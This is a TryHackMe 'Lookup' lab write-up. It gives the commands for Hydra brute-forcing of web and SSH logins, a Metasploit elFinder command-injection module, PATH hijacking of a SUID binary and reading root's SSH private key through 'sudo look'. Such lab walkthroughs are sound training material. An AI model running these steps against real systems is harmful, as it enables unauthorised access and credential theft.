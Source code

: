 # TryHackMe - Lookup Room Writeup

## Overview

This is a detailed walkthrough of how I rooted the **Lookup** room on TryHackMe and captured both user and root flags. The room involved web application enumeration, brute force attacks, a command injection vulnerability, and privilege escalation through misconfigured binaries.

---

## Enumeration

I started the engagement with an `nmap` scan:

```bash
nmap -sC -sV -oN initial_scan.txt <target-ip>
```

The scan revealed two open ports:

- **22** (SSH)
- **80** (HTTP)

---

## Web Application Discovery

Accessing port 80 initially led nowhere. I suspected a virtual host configuration, so I added an entry to my `/etc/hosts` file:

```
<target-ip> lookup.thm
```

After updating the hosts file, I accessed `http://lookup.thm` and was greeted with a **login page**.

---

## Username Enumeration

Upon analyzing the login functionality, I noticed:

- Wrong **username + password** → "wrong username or password"
- Correct **username**, wrong password → "wrong password"

This behavior hinted at a potential for **user enumeration**.

Using **Burp Suite Intruder** with a **Sniper attack** and the `apache-user-enum_1.0.txt` wordlist, I discovered a valid user:

- **Username:** `jose`

---

## Password Brute-Forcing

I then used **Hydra** to brute force the password for `jose`:

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login:username=^USER^&password=^PASS^:F=Wrong"
```

- **Password found:** `password123`

---

## File Manager Exploitation

After logging in, I was redirected to another subdomain: `files.lookup.thm`. I added it to `/etc/hosts` as well.

The site was running **elFinder**, a file manager.

### Exploitation using Metasploit

I loaded the following Metasploit module:

```
exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
```

Configured with:

- `RHOSTS`: `files.lookup.thm`
- `LHOST`: My machine's IP

This yielded a **Meterpreter session**.

---

## Privilege Escalation - Part 1 (User)

Inside the Meterpreter session:

- Navigated to `/home` and found the user folder `think`.
- Discovered `user.txt` but could not access it.

I then searched for SUID binaries:

```bash
find / -perm /4000 2>/dev/null
```

Found:

```bash
/usr/sbin/pwm
```

It was running with **root privileges**.

On execution, it appeared to run `id`. I exploited this by overriding the `id` command:

```bash
echo '#!/bin/bash' > /tmp/id
echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```

This provided me with potential passwords. I used them to brute force SSH:

```bash
hydra -l think -P pwm_passwords.txt ssh://<target-ip>
```

- Successfully logged in as **think**
- Retrieved the **user flag** from `user.txt`

---

## Privilege Escalation - Part 2 (Root)

I checked `think`’s sudo privileges:

```bash
sudo -l
```

Output showed:

```bash
(ALL : ALL) NOPASSWD: /usr/bin/look
```

According to **GTFOBins**, `look` can be exploited to read arbitrary files. I retrieved the root SSH private key:

```bash
LFILE=/root/.ssh/id_rsa
sudo look '' "$LFILE"
```

Saved the output and changed permissions:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@<target-ip>
```

Logged in as **root** and obtained the **root flag** from `root.txt`.

---

## Conclusion

The Lookup room involved a mix of:

- Web app reconnaissance
- Login enumeration
- Credential brute-forcing
- Remote code execution via a known exploit
- SUID binary path manipulation
- Sudo misconfigurations

Each step built on the last, and it was a great exercise in real-world exploitation chains.

---
🖼️ **Find all screenshots here:** [`screenshots/lookup/`](../screenshots/lookup/)

*Thanks for reading!*
